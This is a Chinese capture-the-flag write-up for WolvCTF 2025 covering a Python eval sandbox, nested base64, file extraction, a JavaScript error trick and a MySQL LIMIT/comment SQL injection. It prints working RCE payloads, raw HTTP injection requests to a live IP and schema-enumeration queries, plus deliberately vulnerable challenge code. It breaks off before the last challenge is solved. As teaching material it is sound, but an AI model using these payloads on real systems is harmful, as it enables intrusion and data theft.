# WolvCTF2025(WebAK)-先知社区

> **来源**: https://xz.aliyun.com/news/17404  
> **文章ID**: 17404

---

## Eval is Evil

这是一个简单的python沙箱，也不需要逃逸直接RCE即可，题目源码

```
import random

def main():
    
    print("Let's play a game, I am thinking of a number between 0 and", 2 ** 64, "
")

    try:
        guess = eval(input("What is the number?: "))
    except:
        guess = 0

    correct = random.randint(0, 2**64)
    
    if (guess == correct):
        print("
Correct! You won the flag!")
        flag = open("flag.txt", "r").readline()
        print(flag)
    else:
        print("
You lost lol")

main()
```

可以看到是直接进行了拼接的，进行测试

```
__import__('os').system("dir")
```



直接打

```
__import__('os').system('ls')

__import__('os').system('cat flag.txt')
```

## OverAndOver - Crypto

题目描述是base64解码，但是可能不止有一层，题目附件如下

```
Vm0wd2QyUXlVWGxWV0d4V1YwZDRWMVl3WkRSV01WbDNXa1JTV0ZKdGVGWlZNakExVmpBeFYySkVUbGhoTWsweFZtcEtTMUl5U2tWVWJHaG9UVmhDVVZadGVGWmxSbGw1Vkd0c2FsSnRhRzlVVm1oRFZWWmFjVkZ0UmxSTmF6RTFWVEowVjFaWFNraGhSemxWVmpOT00xcFZXbUZrUjA1R1pFWlNUbFpYZHpGV1ZFb3dWakZhV0ZOcmFHaFNlbXhXVm1wT1QwMHhjRlpYYlVaclVqQTFSMVV5TVRSVk1rcElaSHBHVjFaRmIzZFdha1poVjBaT2NtRkhhRk5sYlhoWFZtMHdlR0l4U2tkWGJHUllZbFZhY2xWcVJtRlRSbGw1VFZSU1ZrMXJjRWxhU0hCSFZqSkZlVlZZWkZwbGEzQklXWHBHVDJSV1ZuUmhSazVzWWxob1dGWnRNSGRsUjBsNFUydGtXR0pIVWxsWmJHaFRWMFpTVjJGRlRsTmlSbkJaV2xWb2ExWXdNVVZTYTFwV1lrWktSRlpxU2tkamJVVjZZVVphYUdFeGNHOVdha0poVkRKT2RGSnJaRmhpVjJoeldXeG9iMkl4V25STldHUlZUVlpXTlZWdGRHdFdNV1JJWVVac1dtSkhhRlJXTUZwVFZqRndSVkZyT1dsU00yaFlWbXBLTkZReFdsaFRhMlJxVW0xNGFGVXdhRU5TUmxweFVWaG9hMVpzV2pGV01uaHJZVWRGZWxGcmJGZFdNMEpJVmtSS1UxWXhWblZWYlhCVFlYcFdXVlpYY0U5aU1rbDRWMWhvWVZKR1NuQlVWbHBYVGtaYVdHUkhkRmhTTUhCNVZHeGFjMWR0U2tkWGJXaGFUVzVvV0ZsNlJsZGpiSEJIWVVkc1UwMHhSalpXYWtvd1ZURlZlRmR1U2s1WFJYQnhWV3hrTkdGR1ZYZGhSVTVVVW14d2VGVXlkR0ZpUmxwelYyeHdXR0V4Y0ROWmEyUkdaV3hHY21KR1pHbFhSVXBKVm10U1MxVXhXWGhYYmxaVllrZG9jRlpxU205bGJHUllaVWM1YVUxcmJEUldNalZUVkd4a1NGVnNXbFZXYkhCWVZHeGFWMlJIVWtoa1JtUk9WakZLU2xkV1ZtRmpNV1IwVTJ0a1dHSlhhR0ZVVmxwM1ZrWmFjVkp0ZEd0U2EzQXdXbFZhYTJGV1NuTmhNMmhYWVRGd2FGWlVSbFpsUm1SMVUyczFXRkpZUW5oV1Z6QjRZakZaZUZWc2FFOVdhelZ6V1d0YWQyVkdWWGxrUkVKWFRWWndlVll5ZUhkWGJGcFhZMGRvV21FeVVrZGFWV1JQVTFkS1IxcEdaRk5XV0VKMlZtMTBVMU14VVhsVmEyUlVZbXR3YUZWdE1XOWpSbHB4VkcwNVYxWnRVbGhXVjNNMVZXc3hXRlZyYUZkTmFsWlVWa2Q0WVZKc1RuTmhSbFpYVFRKb1NWWkhlR0ZaVm1SR1RsWmFVRlp0YUZSVVZXaERVMnhhYzFwRVVtcE5WMUl3VlRKMGExZEhTbGhoUjBaVlZteHdNMWxWV25kU2JIQkhWR3hTVTJFelFqVldSM2hoVkRKR1YxTnVVbEJXUlRWWVZGYzFiMWRHWkZkWGJFcHNWbXR3ZVZkcldtOWhWMFkyVm01b1YxWkZTbkpVYTFwclVqRldjMXBHYUdoTk1VcFdWbGN4TkdReVZrZFdibEpPVmxkU1YxUlhkSGRXTVd4eVZXMUdXRkl3VmpSWk1HaExWMnhhV0ZWclpHRldWMUpRVlRCVk5WWXlSa2hoUlRWWFltdEtNbFp0TVRCVk1VMTRWVmhzVlZkSGVGWlpWRVozWVVaV2NWTnRPVmRTYkVwWlZGWmpOV0pIU2toVmJHeGhWbGROTVZsV1ZYaFhSbFoxWTBaa1RsWXlhREpXYWtKclV6RmtWMVp1U2xCV2JIQnZXVlJHZDFOV1draGxSMFphVm0xU1IxUnNXbUZWUmxsNVlVaENWbUpIYUVOYVJFWmhZekZ3UlZWdGNFNVdNVWwzVmxSS01HRXhaRWhUYkdob1VqQmFWbFp0ZUhkTk1YQllaVWhLYkZaVVJsZFhhMXBQWVZaS2NtTkVXbGRoTWs0MFdYcEdWbVZXVG5WVGJGSnBWbFp3V1ZaR1l6RmlNV1JIV2taa1dHSkZjSE5WYlRGVFpXeHNWbGRzVG1oV2EzQXhWVmMxYjFZeFdYcGhTRXBYVmtWYWVsWnFSbGRqTVdSellVZHNWMVp1UWpaV01XUXdXVmRSZVZaclpGZFhSM2h5Vld0V1MxZEdVbGRYYm1Sc1ZteHNOVnBWYUd0WFIwcEhZMFpvV2sxSGFFeFdha3BIWTJ4a2NtVkdaR2hoTTBKUlZsZHdSMWxYVFhsU2EyUm9VbXhLVkZac2FFTlRNVnB4VW0xR1ZrMVZNVFJXYkdodlYwWmtTR0ZIYUZaTlJuQm9WbTE0YzJOc1pISmtSM0JUWWtoQ05GWlVTWGRPVjBwSVUydG9WbUpIZUdoV2JHUk9UVlpzVjFaWWFGaFNiRnA1V1ZWYWExUnRSbk5YYkZaWFlUSlJNRlY2Umt0ak1YQkpWbXhTYVZKc2NGbFhWM1J2VVRBMWMxZHJhR3hTTUZwaFZtMHhVMUl4VW5OWGJVWldVbXh3TUZaWGN6VldNa1p5VjJ0NFZrMXVhSEpXYWtaaFpFWktkR05GTlZkTlZXd3pWbXhTUzAxSFJYaGFSV2hVWWtkb2IxVnFRbUZXYkZwMFpVaGtUazFYZUZkV01qVnJWVEpLU1ZGcmFGZFNNMmhVVm1wS1MyTnNUbkpoUm1SVFRUSm9iMVpyVWt0U01XUkhVMnhzWVZJelFsUldhazV2VjFaa1dHVkhPVkpOVlRFMFZsZDRhMWxXU2xkalNFNVdZbFJHVkZZeWVHdGpiRnBWVW14b1UyRXpRbUZXVm1NeFlqRlplRmRZY0doVFJYQmhXVmQwWVdWc1duRlNiR1JxVFZkU2VsbFZaRzlVYXpGV1kwUktWMkpIVGpSVWEyUlNaVlphY2xwR1pHbGlSWEJRVm0xNGExVXlTWGhWYkdSWFltMVNjMWxyV25OT1ZuQldXa1ZrVjAxcmNFaFphMUpoVjJ4YVdHRkZlRmROYm1ob1ZqQmFWMk5zY0VoU2JHUlhUVlZ3VWxac1pIZFNNV3hZVkZoc1UyRXlVbTlWYlhoTFZrWmFjMkZGVGxSTlZuQXdWRlpTUTFack1WWk5WRkpYVm0xb2VsWnNXbXRUUjBaSVlVWmFUbEp1UW05V2JURTBZekpPYzFwSVNtdFNNMEpVV1d0YWQwNUdXbGhOVkVKT1VteHNORll5TlU5aGJFcFlZVVpvVjJGck5WUldSVnB6VmxaR1dXRkdUbGRoTTBJMlZtdGtORmxXVlhsVGExcFlWMGhDV0Zac1duZFNNVkY0VjJ0T1ZtSkZTbFpVVlZGM1VGRTlQUT09
```

写个脚本一直解码即可

```
import base64

# 输入题目提供的字符串
encoded_string = """
Vm0wd2QyUXlVWGxWV0d4V1YwZDRWMVl3WkRSV01WbDNXa1JTV0ZKdGVGWlZNakExVmpBeFYySkVUbGhoTWsweFZtcEtTMUl5U2tWVWJHaG9UVmhDVVZadGVGWmxSbGw1Vkd0c2FsSnRhRzlVVm1oRFZWWmFjVkZ0UmxSTmF6RTFWVEowVjFaWFNraGhSemxWVmpOT00xcFZXbUZrUjA1R1pFWlNUbFpYZHpGV1ZFb3dWakZhV0ZOcmFHaFNlbXhXVm1wT1QwMHhjRlpYYlVaclVqQTFSMVV5TVRSVk1rcElaSHBHVjFaRmIzZFdha1poVjBaT2NtRkhhRk5sYlhoWFZtMHdlR0l4U2tkWGJHUllZbFZhY2xWcVJtRlRSbGw1VFZSU1ZrMXJjRWxhU0hCSFZqSkZlVlZZWkZwbGEzQklXWHBHVDJSV1ZuUmhSazVzWWxob1dGWnRNSGRsUjBsNFUydGtXR0pIVWxsWmJHaFRWMFpTVjJGRlRsTmlSbkJaV2xWb2ExWXdNVVZTYTFwV1lrWktSRlpxU2tkamJVVjZZVVphYUdFeGNHOVdha0poVkRKT2RGSnJaRmhpVjJoeldXeG9iMkl4V25STldHUlZUVlpXTlZWdGRHdFdNV1JJWVVac1dtSkhhRlJXTUZwVFZqRndSVkZyT1dsU00yaFlWbXBLTkZReFdsaFRhMlJxVW0xNGFGVXdhRU5TUmxweFVWaG9hMVpzV2pGV01uaHJZVWRGZWxGcmJGZFdNMEpJVmtSS1UxWXhWblZWYlhCVFlYcFdXVlpYY0U5aU1rbDRWMWhvWVZKR1NuQlVWbHBYVGtaYVdHUkhkRmhTTUhCNVZHeGFjMWR0U2tkWGJXaGFUVzVvV0ZsNlJsZGpiSEJIWVVkc1UwMHhSalpXYWtvd1ZURlZlRmR1U2s1WFJYQnhWV3hrTkdGR1ZYZGhSVTVVVW14d2VGVXlkR0ZpUmxwelYyeHdXR0V4Y0ROWmEyUkdaV3hHY21KR1pHbFhSVXBKVm10U1MxVXhXWGhYYmxaVllrZG9jRlpxU205bGJHUllaVWM1YVUxcmJEUldNalZUVkd4a1NGVnNXbFZXYkhCWVZHeGFWMlJIVWtoa1JtUk9WakZLU2xkV1ZtRmpNV1IwVTJ0a1dHSlhhR0ZVVmxwM1ZrWmFjVkp0ZEd0U2EzQXdXbFZhYTJGV1NuTmhNMmhYWVRGd2FGWlVSbFpsUm1SMVUyczFXRkpZUW5oV1Z6QjRZakZaZUZWc2FFOVdhelZ6V1d0YWQyVkdWWGxrUkVKWFRWWndlVll5ZUhkWGJGcFhZMGRvV21FeVVrZGFWV1JQVTFkS1IxcEdaRk5XV0VKMlZtMTBVMU14VVhsVmEyUlVZbXR3YUZWdE1XOWpSbHB4VkcwNVYxWnRVbGhXVjNNMVZXc3hXRlZyYUZkTmFsWlVWa2Q0WVZKc1RuTmhSbFpYVFRKb1NWWkhlR0ZaVm1SR1RsWmFVRlp0YUZSVVZXaERVMnhhYzFwRVVtcE5WMUl3VlRKMGExZEhTbGhoUjBaVlZteHdNMWxWV25kU2JIQkhWR3hTVTJFelFqVldSM2hoVkRKR1YxTnVVbEJXUlRWWVZGYzFiMWRHWkZkWGJFcHNWbXR3ZVZkcldtOWhWMFkyVm01b1YxWkZTbkpVYTFwclVqRldjMXBHYUdoTk1VcFdWbGN4TkdReVZrZFdibEpPVmxkU1YxUlhkSGRXTVd4eVZXMUdXRkl3VmpSWk1HaExWMnhhV0ZWclpHRldWMUpRVlRCVk5WWXlSa2hoUlRWWFltdEtNbFp0TVRCVk1VMTRWVmhzVlZkSGVGWlpWRVozWVVaV2NWTnRPVmRTYkVwWlZGWmpOV0pIU2toVmJHeGhWbGROTVZsV1ZYaFhSbFoxWTBaa1RsWXlhREpXYWtKclV6RmtWMVp1U2xCV2JIQnZXVlJHZDFOV1draGxSMFphVm0xU1IxUnNXbUZWUmxsNVlVaENWbUpIYUVOYVJFWmhZekZ3UlZWdGNFNVdNVWwzVmxSS01HRXhaRWhUYkdob1VqQmFWbFp0ZUhkTk1YQllaVWhLYkZaVVJsZFhhMXBQWVZaS2NtTkVXbGRoTWs0MFdYcEdWbVZXVG5WVGJGSnBWbFp3V1ZaR1l6RmlNV1JIV2taa1dHSkZjSE5WYlRGVFpXeHNWbGRzVG1oV2EzQXhWVmMxYjFZeFdYcGhTRXBYVmtWYWVsWnFSbGRqTVdSellVZHNWMVp1UWpaV01XUXdXVmRSZVZaclpGZFhSM2h5Vld0V1MxZEdVbGRYYm1Sc1ZteHNOVnBWYUd0WFIwcEhZMFpvV2sxSGFFeFdha3BIWTJ4a2NtVkdaR2hoTTBKUlZsZHdSMWxYVFhsU2EyUm9VbXhLVkZac2FFTlRNVnB4VW0xR1ZrMVZNVFJXYkdodlYwWmtTR0ZIYUZaTlJuQm9WbTE0YzJOc1pISmtSM0JUWWtoQ05GWlVTWGRPVjBwSVUydG9WbUpIZUdoV2JHUk9UVlpzVjFaWWFGaFNiRnA1V1ZWYWExUnRSbk5YYkZaWFlUSlJNRlY2Umt0ak1YQkpWbXhTYVZKc2NGbFhWM1J2VVRBMWMxZHJhR3hTTUZwaFZtMHhVMUl4VW5OWGJVWldVbXh3TUZaWGN6VldNa1p5VjJ0NFZrMXVhSEpXYWtaaFpFWktkR05GTlZkTlZXd3pWbXhTUzAxSFJYaGFSV2hVWWtkb2IxVnFRbUZXYkZwMFpVaGtUazFYZUZkV01qVnJWVEpLU1ZGcmFGZFNNMmhVVm1wS1MyTnNUbkpoUm1SVFRUSm9iMVpyVWt0U01XUkhVMnhzWVZJelFsUldhazV2VjFaa1dHVkhPVkpOVlRFMFZsZDRhMWxXU2xkalNFNVdZbFJHVkZZeWVHdGpiRnBWVW14b1UyRXpRbUZXVm1NeFlqRlplRmRZY0doVFJYQmhXVmQwWVdWc1duRlNiR1JxVFZkU2VsbFZaRzlVYXpGV1kwUktWMkpIVGpSVWEyUlNaVlphY2xwR1pHbGlSWEJRVm0xNGExVXlTWGhWYkdSWFltMVNjMWxyV25OT1ZuQldXa1ZrVjAxcmNFaFphMUpoVjJ4YVdHRkZlRmROYm1ob1ZqQmFWMk5zY0VoU2JHUlhUVlZ3VWxac1pIZFNNV3hZVkZoc1UyRXlVbTlWYlhoTFZrWmFjMkZGVGxSTlZuQXdWRlpTUTFack1WWk5WRkpYVm0xb2VsWnNXbXRUUjBaSVlVWmFUbEp1UW05V2JURTBZekpPYzFwSVNtdFNNMEpVV1d0YWQwNUdXbGhOVkVKT1VteHNORll5TlU5aGJFcFlZVVpvVjJGck5WUldSVnB6VmxaR1dXRkdUbGRoTTBJMlZtdGtORmxXVlhsVGExcFlWMGhDV0Zac1duZFNNVkY0VjJ0T1ZtSkZTbFpVVlZGM1VGRTlQUT09
"""

while True:
    try:
        # 尝试进行 Base64 解码
        decoded = base64.b64decode(encoded_string).decode('utf-8')
        print(decoded)  # 输出解码结果
        encoded_string = decoded  # 继续解码
    except Exception as e:
        print("解码结束，无法继续解码。")
        break

```

## DigginDir - Forensics



题目附件打开类似于这样，并且描述也确实说flag就在这些file.txt之中，那么写个脚本对文件进行提取即可

```
#!/usr/bin/env python3
import os


def extract_file_contents(root_dir):
    """
    递归搜索指定目录下的所有文件并提取其内容

    Args:
        root_dir: 开始搜索的根目录

    Returns:
        包含(file_path, content)的列表
    """
    results = []

    # 遍历所有目录和文件
    for dirpath, dirnames, filenames in os.walk(root_dir):
        for filename in filenames:
            file_path = os.path.join(dirpath, filename)
            try:
                # 尝试以文本方式读取所有文件
                with open(file_path, 'r', encoding='utf-8', errors='ignore') as f:
                    content = f.read().strip()
                    # 只记录非空文件
                    if content:
                        results.append((file_path, content))
            except Exception as e:
                print(f"Error reading {file_path}: {e}")

    return results


def main():
    challenge_dir = "challenge"  # 改为你的挑战目录

    print(f"Extracting contents from all files in {challenge_dir}...")
    file_contents = extract_file_contents(challenge_dir)

    if file_contents:
        print(f"
Found {len(file_contents)} files with content:")
        for i, (file_path, content) in enumerate(file_contents, 1):
            print(f"{i}. File: {file_path}")
            print(f"   Content: {content}")
            print()
    else:
        print("No files with content found.")


if __name__ == "__main__":
    main()

```

## Javascript Puzzle

前面的三题都是beginer之中的，所以非常简单，也没有什么新东西，到这里WEB开始，题目代码很少，

```
const express = require('express')

const app = express()
const port = 8000

app.get('/', (req, res) => {
    try {
        const username = req.query.username || 'Guest'
        const output = 'Hello ' + username
        res.send(output)
    }
    catch (error) {
        res.sendFile(__dirname + '/flag.txt')
    }
})

app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`)
})
```

可以看到只要我们报错就可以拿到flag，而try和catch模块的报错规则如下demo

```
try {
  // 尝试执行的代码
} catch(err) {  // err为捕获的错误对象
  // 错误处理
} finally {
  // 始终执行的代码（可选）
}
```

而错误类型有这些

|  |  |  |
| --- | --- | --- |
| 错误类型 | 触发场景 | 是否捕获 |
| Error | 基础错误 | ✅ |
| SyntaxError | 语法错误（仅在解析阶段） | ❌ |
| TypeError | 类型错误 | ✅ |
| ReferenceError | 未定义变量 | ✅ |
| RangeError | 数值越界 | ✅ |
| URIError | URI处理错误 | ✅ |
| 自定义错误 | throw new Error() | ✅ |

而经过测试发现最容易抛出错误的就是字符拼接了，如果此时username不是字符串即可，我们将其设置为对象，再随便覆盖一个方法进去，拼接的时候就会触发这个方法

```
username[toString]=()=>{throw new Error()}
```

## Limited 2

limit系列，查看题目应该是sql注入的题目



查看Dockerfile发现mysql版本较高，

```
async function fetchData() {
    return await fetch(`/query?price=${price.value}&price_op=${price_op.value}&limit=${limit.value}`).then(r => r.json())
}

async function renderTable() {
    const tableBody = document.querySelector('#data-table tbody')

    const data = await fetchData()

    tableBody.innerHTML = ''

    data.forEach((item) => {
        const row = document.createElement('tr')
        row.innerHTML = `<td><input type="checkbox"></td><td>${item.category}</td><td>${item.name}</td><td>${item.description}</td><td>${item.price}</td>`

        tableBody.appendChild(row)
    })
}

window.onload = function () {
    renderTable();
    query.onclick = renderTable
}
```

看到是传入的参数以及路由，再看WEB应用代码

```
# imports
from flask import Flask, request, jsonify, render_template
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address
from flask_mysqldb import MySQL

import os
import re
import socket

FLAG1 = 'wctf{redacted-flag}'

PORT = 8000


# initialize flask
app = Flask(__name__)

# No matter what I do, someone always tries dirbuster even when
# the source is provided.
#
# This is NOT intended to make this harder/slower to solve.
limiter = Limiter(
    app=app,
    key_func=get_remote_address,
    default_limits=["5 per second"],
    storage_uri="memory://",
)


def get_db_hostname():
    # use this when running locally with docker compose
    db_hostname = 'db'
    try:
        socket.getaddrinfo(db_hostname, 3306)
        return db_hostname
    except:
        # use this for google cloud
        return '127.0.0.1'


app.config['MYSQL_HOST'] = get_db_hostname()
app.config['MYSQL_USER'] = os.environ["MYSQL_USER"]
app.config['MYSQL_PASSWORD'] = os.environ["MYSQL_PASSWORD"]
app.config['MYSQL_DB'] = os.environ["MYSQL_DB"]

print('app.config:', app.config)

mysql = MySQL(app)


@app.route('/')
def root():
    return render_template("index.html")


@app.route('/query')
def query():
    try:
        price = float(request.args.get('price') or '0.00')
    except:
        price = 0.0

    price_op = str(request.args.get('price_op') or '>')
    if not re.match(r' ?(=|<|<=|<>|>=|>) ?', price_op):
        return 'price_op must be one of =, <, <=, <>, >=, or > (with an optional space on either side)', 400

    # allow for at most one space on either side
    if len(price_op) > 4:
        return 'price_op too long', 400

    # I'm pretty sure the LIMIT clause cannot be used for an injection
    # with MySQL 9.x
    #
    # This attack works in v5.5 but not later versions
    # https://lightless.me/archives/111.html
    limit = str(request.args.get('limit') or '1')

    query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
    print('query:', query)

    if ';' in query:
        return 'Sorry, multiple statements are not allowed', 400

    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()
        column_names = [desc[0] for desc in cur.description]
        cur.close()
    except Exception as e:
        return str(e), 400

    result = [dict(zip(column_names, row)) for row in records]
    return jsonify(result)


#useful during chal development
# @app.route('/testquery')
# def test_query():
#     query = str(request.args.get('query'))
#
#     try:
#         cur = mysql.connection.cursor()
#         cur.execute(query)
#     except Exception as e:
#         return str(e), 400
#
#     records = cur.fetchall()
#
#     column_names = [desc[0] for desc in cur.description]
#     cur.close()
#
#     result = [dict(zip(column_names, row)) for row in records]
#     return jsonify(result)


# cause grief for dirbuster
@app.route("/<path:path>")
def missing_handler(path):
    return 'page not found!', 404


# run the app
if __name__ == "__main__":
    app.run(host='0.0.0.0', port=PORT, threaded=True, debug=False)
```

就是一个数据库的查询代码，其中sql语句直接进行拼接，没有预编译



并且注释里面说到有limit注入的姿势，只不过当前版本过高，无法利用，其poc为

```
procedure analyse(extractvalue(1,concat(version())));
```

经过测试发现总共是50条数据(在初始化文件中也可以发现)，于是在这里卡了很久，后面抓包随便测试的时候发现原来可以在数据包中修改参数

```
GET /query?price=50&price_op=</*>&limit=*/3 HTTP/1.1
Host: 156.238.233.93:40000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Referer: http://156.238.233.93:40000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=f51b8788-6a7e-44bf-b9b2-645ed1e6c44a.ii_JoIj4aA0aEMYNQ1BLME0aW-Q
Connection: close


```

那么查询语句就变成了

```
SELECT /*wctf{redacted-flag}*/category, name, price, description FROM Menu WHERE price </*> 50.0 ORDER BY 1 LIMIT */3
```

那我们在limit处插入查询语句即可

```
GET /query?price=50&price_op=</*>&limit=*/3+union+select+1,2,3,4 HTTP/1.1
Host: 156.238.233.93:40000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Referer: http://156.238.233.93:40000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=f51b8788-6a7e-44bf-b9b2-645ed1e6c44a.ii_JoIj4aA0aEMYNQ1BLME0aW-Q
Connection: close


```

进行子查询，将查询语句换入任意一列

```
select/**/group_concat(schema_name)from/**/information_schema.schemata

select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema='ctf'

select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name='Flag_REDACTED'

select/**/group_concat(value)from/**/Flag_REDACTED
```

自己搭建的环境中成功拿到flag，但是回到题目却发现了一个小问题



